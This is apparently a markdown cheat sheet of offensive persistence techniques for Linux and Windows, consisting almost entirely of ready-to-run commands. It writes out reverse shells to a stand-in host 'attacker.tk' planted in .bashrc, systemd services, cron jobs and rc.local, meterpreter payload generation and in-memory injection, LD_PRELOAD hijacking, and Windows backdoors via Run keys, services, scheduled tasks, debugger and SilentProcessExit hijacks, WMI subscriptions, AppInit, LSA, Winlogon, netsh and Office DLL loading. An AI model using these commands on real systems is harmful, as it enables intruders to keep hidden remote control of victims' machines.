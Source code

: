 # WEB

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# PERSISTANT

## LINUX
	
* Autorun
		
			bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc
			
		* Service
		
			bash#> vim /etc/systemd/system/persistence.service
			bash$> vim ~/.config/systemd/user/persistence.service
			
				[Unit]
				Description=persistence
				[Service]
				ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
				Restart=always
				RestartSec=60
				[Install]
				WantedBy=default.target
				
			bash#> systemctl enable persistence.service
			bash#> systemctl start persistence.service
			bash$> systemctl ‐‐user enable persistence.service
			bash$> systemctl ‐‐user start persistence.service
			
		* Tasks
		
			bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
			bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn
			
		* In MEMORY
		
			msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			bash$> inject_linux PID meter32.bin
			
		* LD_PRELOAD
		
			bash#> echo /path/to/meter.so >> /etc/ld.so.preload
			bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
			bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc
			
		* rc.local
		
			bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local
			
	## WINDOWS
	
		* Autorun
		
			cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
			cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"
			
		* Service
		
			cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
			cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
			cmd#> sc start persistence
			
		* Tasks
		
			cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
			cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"
			
		* In MEMORY
		
			msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			cmd$> inject_windows.exe PID meter32.bin
			
		* Debugger
		
			cmd#> copy calc.exe _calc.exe
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f
		
		* Gflags
		
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"
			
		* WMI
		
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""
			
		* AppInit
		
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f
			
		* Lsass
		
			cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f
			
		* Winlogon
		
			cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"
			
		* Netsh
		
			cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"
			
		* Office
		
			cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# OS

# UTILS

# LINKS

